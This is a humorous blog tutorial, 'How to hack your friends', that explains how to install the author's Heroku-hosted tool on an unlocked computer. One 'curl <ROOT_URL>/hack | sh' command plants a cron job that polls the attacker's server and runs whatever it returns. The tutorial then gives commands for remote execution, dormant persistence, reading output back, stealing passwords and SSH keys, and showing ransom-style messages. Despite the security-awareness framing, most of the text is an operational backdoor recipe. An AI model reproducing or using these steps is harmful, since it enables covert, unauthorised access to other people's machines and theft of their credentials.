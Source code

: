 ```yaml
---
author: Chet Corcos
authorTwitter: none
authorFacebook: https://facebook.com/1165511785
title: "How to hack your friends"
subTitle: "My friends often leave their computers open and unlocked. I tell them they should probably get in the habit of locking their computers, b..."
coverSrc: https://cdn-images-1.medium.com/max/2000/1*CRdFzUjOuDE-qB0ASTk9yQ.jpeg
url: https://medium.freecodecamp.org/how-to-hack-your-friends-eef055389344
id: how-to-hack-your-friends-eef055389344
date: 2016-07-27T18:46:15.178Z
tags: [
  "Security",
  "Humor",
  "Tech",
  "Technology",
  "Programming"
]
---
```

# How to hack your friends







![](https://cdn-images-1.medium.com/max/2000/1*CRdFzUjOuDE-qB0ASTk9yQ.jpeg)







My friends often leave their computers open and unlocked. I tell them they should probably get in the habit of locking their computers, but they don’t listen to me. So I’ve created a simple project to hack my friends and show them the importance of computer security.

All I need to do is wait for them to leave their computer unlocked for a few seconds, open up their terminal, and type a single, short command.



![](https://cdn-images-1.medium.com/max/1600/1*ZRZjvQp1_tVNl_jl6gxDWA.png)



That’s it! Their computer is now infected and I can run whatever commands I want on this computer remotely. Pretty sweet, right? Or perhaps shocking?

Hacking is illegal. Specifically:

> “intentionally access[ing] a computer without authorization or exceed[ing] authorized access” — The Computer Fraud and Abuse Act (18 U.S.C. 1030)

So keep in mind that the purpose of this article is to show you just how easy it would be for someone with bad intentions to hack you so you can avoid getting hacked yourself.

It doesn’t take some hacker genius to wreck your life — any “script kiddy” who can gain physical access to your computer can compromise you by downloading a script containing just 50 lines of code.

### Getting Setup

All of the code for this project lives in [this repository](https://github.com/ccorcos/hack/) if you want to jump right in, but I’ll explain how it all works below.

First, you just need to clone the repo, install its dependencies, and symlink the _hack_ command line interface (CLI) tool.

<pre name="bb06" id="bb06" class="graf graf--pre graf-after--p">git clone [https://github.com/ccorcos/hack.git](https://github.com/ccorcos/hack.git)  
git remote remove origin  
cd hack  
npm install  
npm link</pre>

Next, you need to setup Heroku to host the scripts that will be running on your friends machine. If you’ve never used Heroku before, [signup here](https://signup.heroku.com/) (it’s free!) and set up their CLI tool on your machine.

<pre name="0651" id="0651" class="graf graf--pre graf-after--p">brew install heroku-toolbelt  
heroku login</pre>

Now inside the _hack_ repo, create a Heroku app with an easy name to remember. I’m using _hacker-chet._

<pre name="086a" id="086a" class="graf graf--pre graf-after--p">heroku create hacker-chet</pre>

Then you need to run a command to do a little setup. All it’s really doing is getting the root url for your Heroku website and putting it in your _package.json_. This way the server can inject the app url into the shell scripts.

<pre name="d970" id="d970" class="graf graf--pre graf-after--p">npm run init</pre>

You can start up the server locally if you want to hack yourself and test things out.

<pre name="9707" id="9707" class="graf graf--pre graf-after--p">npm start</pre>

Or you can deploy to Heroku.

<pre name="7740" id="7740" class="graf graf--pre graf-after--p">npm run deploy</pre>

Now you’re ready to hack!

### Hack API

The beauty of this program is that to start hacking someone, you just need to run a single command on their machine.

<pre name="8056" id="8056" class="graf graf--pre graf-after--p">curl <ROOT_URL>/hack | sh</pre>

_ROOT_URL_ is the specific path to your application. When you’re running the server locally, this will be _localhost:5000_ and when you deploy to Heroku, it will be something like _<APP_NAME>.herokuapp.com_.

What this does is sets up a cron job — a “chronological job” that reruns tasks at certain times — to ping the _/env/live_ endpoint every minute and pipes the result to _sh_. It’s actually quite simple! And Heroku gives you HTTPS for free so its “secure” right?

Once you’ve hacked your friend, you can do everything else with the command line tool from your computer.

The _hack_ tool has a concept of different hacked environments. When you hack someone using the _/hack_ endpoint, that person starts off in the _live_ environment. And for each environment, you can run a variety of different commands. I’ll demonstrate everything with a little walkthrough.

The following will rewrite the _live_ environment shell script to execute the following command which will say aloud “I’m watching you.”

<pre name="265c" id="265c" class="graf graf--pre graf-after--p">hack live exec "say 'I\'m watching you'"</pre>

Well it’s not going to work yet, you still have to re-deploy to your Heroku app.

<pre name="724a" id="724a" class="graf graf--pre graf-after--p">hack deploy</pre>



![](https://cdn-images-1.medium.com/max/1600/1*MLClljpzv4v1oVqbniDc1Q.png)



Now wait for the next minute and watch your friend’s computer ping your server by tailing the server logs.

<pre name="11b2" id="11b2" class="graf graf--pre graf-after--p">hack logs</pre>



![](https://cdn-images-1.medium.com/max/1600/1*S1TvBHYx1BjAqPlHh3PYUw.png)



The whole point of environments is so you can hack multiple people at the same time. To isolate people in different environments, you just need to change the name.

<pre name="0217" id="0217" class="graf graf--pre graf-after--p">hack live rename jon</pre>

Next time the live environment is pinged, it will rewrite the cron job to start pinging the _jon_ environment instead.



![](https://cdn-images-1.medium.com/max/1600/1*qUlhTFkuDzVyikrkF8mLpg.png)



You can do everything the same just by changing the environment argument.

<pre name="84e0" id="84e0" class="graf graf--pre graf-after--p">hack jon exec "say 'hello jon'"</pre>

Now if you’ve had enough fun for the day and the party’s over, you can _forget_ Jon and assure him that you’ve “unhacked” him.

<pre name="9d14" id="9d14" class="graf graf--pre graf-after--p">hack jon forget</pre>

This will erase the cron job from their computer. Or you might want to just put this environment in sleeper-cell mode so you can recover it later.

<pre name="b300" id="b300" class="graf graf--pre graf-after--p">hack jon interval 1d</pre>

Now, rather than pinging your server every minute (the default), it will ping every day at midnight. And when you want to wake it back up, you can change the interval back to every minute and the next day, you’re good to go!

<pre name="ae1f" id="ae1f" class="graf graf--pre graf-after--p">hack jon interval 1m</pre>

Some other fun things to do are setting up additional cron jobs. Here’s how you can wake your friend up at 6am every morning to remind him about computer security.

<pre name="e69e" id="e69e" class="graf graf--pre graf-after--p">hack jon cron "0 6 * * * say 'good morning jon, remember what I told you about locking your computer?'"</pre>

P.S. If you don’t remember how cron jobs work, [this is a great resource](http://www.nncron.ru/help/EN/working/cron-format.htm). It pretty much all comes down to this little diagram.

<pre name="a6b2" id="a6b2" class="graf graf--pre graf-after--p">* * * * *  
| | | | |  
| | | | |  
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)  
| | | +------ Month of the Year (range: 1-12)  
| | +-------- Day of the Month  (range: 1-31)  
| +---------- Hour              (range: 0-23)  
+------------ Minute            (range: 0-59)</pre>

One of my favorites is the _desktop_ preset which will download an image from a given URL and set it as the background photo.

<pre name="8c5b" id="8c5b" class="graf graf--pre graf-after--p">hack jon preset desktop [http://i.imgur.com/5FC2r9R.jpg](http://i.imgur.com/5FC2r9R.jpg)</pre>

And if you’ve written a ton of cron jobs and you don’t know what’s on there anymore, you can use the dump command.

<pre name="8fa2" id="8fa2" class="graf graf--pre graf-after--p">hack jon dump "crontab -l"</pre>

Now whip open your logs and you’ll see the output on the next ping. This is actually much more sinister now that you can get information back. If you wanted to be more nefarious, you can search for decrypted passwords or steal their ssh keys.

<pre name="c4e4" id="c4e4" class="graf graf--pre graf-after--p">hack jon preset passwords  
hack jon preset ssh</pre>

But if you just want to give him a good old-fashioned scare, send him a ransom message!

<pre name="0fd7" id="0fd7" class="graf graf--pre graf-after--p">hack jon preset ransom "Hello Jon, I told you not to leave your computer unlocked."</pre>



![](https://cdn-images-1.medium.com/max/1600/1*LVKyqVyEoy6oynsrcuwP_w.png)



Lastly, if you find yourself adding a bunch of cron jobs and just want to start over, reset is here to help.

<pre name="4106" id="4106" class="graf graf--pre graf-after--p">hack jon reset</pre>

Now go have (responsible) fun with this thing and let me know what your favorite pranks are by [submitting a pull request](https://github.com/ccorcos/hack) with a new command or preset!

Happy Hacking!








